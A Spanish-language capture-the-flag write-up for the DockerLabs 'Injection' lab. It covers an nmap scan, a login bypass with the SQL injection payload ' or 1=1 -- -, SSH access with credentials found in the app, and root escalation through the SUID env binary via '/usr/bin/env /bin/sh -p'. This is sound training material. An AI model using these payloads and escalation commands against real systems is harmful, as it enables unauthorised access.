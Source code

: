 ## WRITEUP DE LA MÁQUINA INJECTION DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolucion de una maquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
"172.17.0.2" Es la dirección IP de la máquina víctima.
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es mas eficaz y rapido ejecutar un comando mas corto.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-19 03:06 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.68 seconds
```

Observamos que el puerto 22 y 80 (ssh y http respectivamente) estan abiertos, primero vamos a ver que página web encontramos con 172.17.0.2, vemos un login:

![pagina login](login.png)

Probamos a intentar loguearnos con algun usuario o contraseña y nos dice "credenciales erroneas". Vamos a hacer un poco de SQL injection, para ello vamos a hacer una Inyección tautológica. Este tipo de ataque se aprovecha de una expresión condicional que siempre es verdadera, en este caso 1=1, lo que permite a un atacante acceder o manipular la base de datos de una aplicación.

```SQL
' or 1=1 -- -
```

" ' " cierra una cadena de texto que el usuario está ingresando. En este caso esa "comilla" cierra la cadena de login que esta esperando, espera que pongas un nombre, pero con " ' " cierras esa parte de la consulta.
<br><br>
" or 1=1 " es una condición que siempre es verdadera, forzando a que toda la consulta SQL retorne un resultado verdadero.
<br><br>
" -- " es un comentario en SQL que indica que lo que sigue en la línea no será ejecutado, anulando el resto de la consulta original.

" - " el segundo guión adicional es porque algunos motores de SQL no aceptan como comentario un -- sin nada despues. Para enetenerlo se podría hacer lo mismo poniendo cualquier otro caracter, por ejemplo " ' or 1=1 -- x" y funcionaria igual.

Si no lo has entendido, aquí estaría la consulta en SQl como lo estaría interpretando la página de login.

```SQL
SELECT * FROM usuarios WHERE usuario = '' OR 1=1 -- ' AND contraseña = '';
```
Haciendo esa inyección tautológica conseguimos entrar, y observamos esta página:

![conseguimos entrar](tauto.png)

Sabiendo el usuario (dylan) y la contraseña (KJSDFG789FGSDF78) podemos hacer la conexión ssh.

```
└─$ sudo ssh dylan@172.17.0.2
```
Ahora como siempre toca escalar privilegios, peeeero, esta vez ```sudo -l ``` no funciona, nos dice que no se encuentra el comando, hay otra forma de buscar los binarios para intentar escalar privilegios. Mediante el comando:
``` find / -perm -4000 2>/dev/null ```, lo desgloso:

"find "Este es el comando principal que se utiliza para buscar archivos y directorios en una jerarquía de directorios.
<br><br>
"/" Este es el directorio donde comenzará la búsqueda. En este caso, se está buscando desde la raíz del sistema de archivos, lo que significa que se revisarán todos los directorios y subdirectorios.
<br><br>
"-perm"
Este es un criterio de búsqueda que especifica que se están buscando archivos con un permiso especial. 
<br><br>
"-4000" se refiere al bit SUID (Set User ID). Cuando un archivo tiene este permiso, se ejecuta con los privilegios del propietario del archivo en lugar de los del usuario que lo ejecuta. Esto puede ser útil, pero también puede ser un riesgo de seguridad si no se gestiona adecuadamente.
<br><br>
"2>/dev/null" Esta parte del comando redirige los mensajes de error (que normalmente se mostrarían en la consola) a
/dev/null que es un "agujero negro" en el sistema donde se descartan los datos. Esto significa que si hay errores (por ejemplo, si no tienes permiso para acceder a ciertos directorios), esos mensajes no se mostrarán en la salida.

Este es el resultado:

```
/usr/bin/umount
/usr/bin/env
/usr/bin/chfn
/usr/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/mount 
```

Que estos binarios tengan el bit SUID activad no significa que sean escalables. El binario "/usr/bin/env" se que es escalable por máquinas anteriores asi que la busco en GTFObins. Y veo que debo ejecutar el siguiente comando:

``` ./env /bin/sh -p ```

``` 
# whoami
root 
```

Ya somos root, muchas gracias por seguir este writeup!